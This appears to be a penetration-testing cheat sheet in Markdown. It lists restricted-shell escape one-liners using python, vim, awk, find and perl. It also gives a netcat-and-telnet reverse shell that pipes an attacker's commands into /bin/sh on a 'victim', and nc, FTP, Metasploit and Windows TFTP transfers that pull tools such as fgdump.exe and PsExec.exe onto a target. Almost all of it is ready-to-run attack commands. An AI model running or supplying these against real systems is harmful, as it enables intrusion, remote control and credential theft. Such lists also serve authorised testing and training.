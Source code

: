 # Useful commands and check exist command 
- Jail shell
  ~~~sh
  python -c 'import pty;pty.spawn("/bin/bash")'
  echo os.system('/bin/bash')
  /bin/sh -i

  :!bash # vi, vim
  :set shell=/bin/bash:shell # vi, vim
  !bash # man, more, less
  find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' # find
  awk 'BEGIN {system("/bin/bash")}' # awk
  perl -e 'exec "/bin/bash";' # Perl 
  ~~~

- Establish the connection with victim
  ~~~sh
  # http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
  nc -lvp 4444    # Attacker. Input (Commands)
  nc -lvp 4445    # Attacker. Ouput (Results)
  telnet ${AttackerIP} 4444 | /bin/sh | ${AttackerIP} 4445    # On the targets system. Use the attackers IP!
  ~~~

## File transfer
  - nc/ncat
    - from Kali to Windows
      ~~~sh
      # sending
      nc -w 3 ${DESTIP} ${DESTPORT} < send.file
      # Receiving
      cmd /c nc.exe -l -v -p ${DESTPORT} > PsExec.exe
      ~~~
    - from Windows to Kali
      ~~~sh
      # sending
      nc -w 3 ${DESTIP} ${DESTPORT} < send.file
      # Receiving
      cmd /c nc.exe -l -v -p ${DESTPORT} > PsExec.exe
      ~~~

  - ftp/tftp
    - Python(FTP server) on Kali
      - 2
        ~~~sh
        pip install pyftpdlib
        python -m pyftpdlib -p 21
        ~~~
      - 3
        ~~~sh
        pip3 install pyftpdlib
        python3 -m pyftpdlib -p 21
        ~~~

    - Metasploit(TFTP server)
      ~~~sh
      use auxiliary/server/tftp
      set TFTPROOT /path/to/dir
      run
      ~~~

    - Client on Windows
      ~~~sh
      # Manual: https://technet.microsoft.com/en-us/library/ff698993(v=ws.11).aspx
      TFTP.EXE -i ${MyIP} get fgdump.exe C:\Users\Public
      ~~~
